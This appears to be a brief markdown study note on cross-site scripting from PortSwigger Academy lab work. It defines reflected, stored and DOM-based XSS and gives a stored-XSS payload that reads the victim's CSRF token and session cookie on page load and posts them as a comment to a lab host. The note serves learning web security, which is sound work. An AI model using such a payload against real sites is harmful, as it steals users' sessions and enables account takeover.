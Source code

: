 # Cross-Site scripting 

- ***Cheatsheet***: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## Reflected XSS
The malicious script comes from the current HTTP request.

## Stored XSS
The malicious script comes from the website's database.

```html
</p><script>

window.onload = function exampleFunction() {
  fetch('https://aca71f681f59794b806d32780018002c.web-security-academy.net/post/comment',
  {method:'POST',
  mode:'cors',
  cache:'no-cache',
  credentials:'same-origin',
  headers:{},
  redirect:'follow',
  referrerPolicy:'no-referrer',
  body:'csrf='+document.getElementsByName('csrf')[0].value+'&postId=2&comment='+document.cookie+'&name=test&email=http://test%40gmail.com&website=http://www.google.es'

});}</script><p>ScriptHere

```


## DOM-based XSS
The vulnerability exists in client-side code rather than server-side code.


